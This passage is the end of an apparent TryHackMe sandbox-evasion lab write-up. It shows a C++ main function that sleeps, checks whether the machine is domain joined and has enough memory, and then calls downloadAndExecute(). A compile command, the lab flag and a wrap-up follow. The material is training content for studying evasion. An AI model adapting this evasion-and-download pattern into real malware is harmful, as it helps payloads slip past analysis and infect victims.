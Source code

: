 ```cpp
    Sleep(60000);

    if (!isDomainJoined()) {
        return 0;
    }

    if (!memoryCheck()) {
        return 0;
    }

    sendHTTPRequest();

    downloadAndExecute();

    return 0;
}
```

We can compile with:

```
cl.exe /EHsc /Fe:SandboxEvasion.exe SandboxEvasion.cpp /link urlmon.lib netapi32.lib
```

After we compile, we can execute it:

```
C:\Users\Administrator\Desktop\Materials>.\SandboxChecker.exe SandboxEvasion.exe
```

We can see this after a while:

![Pasted image 20250523162517.png](../../../IMAGES/Pasted%20image%2020250523162517.png)

We got our flag:

```
THM{6c1f95ec}
```

# Wrapping Up

----

In this room, we covered some modern and historicÂ Sandbox evasion techniques that have been used by both red teamers and advanced threat actors alike. After finishing up this room, you should now have a general understanding of what a malware sandbox is, methods that you could try to use to evade it, and even some template code that you can build off of.

This is by no means a fully comprehensive list of all of the Sandbox Evasion methods out there; we highly encourage you to go out and develop your own Sandbox Evasion techniques with the foundational knowledge learned from this room.
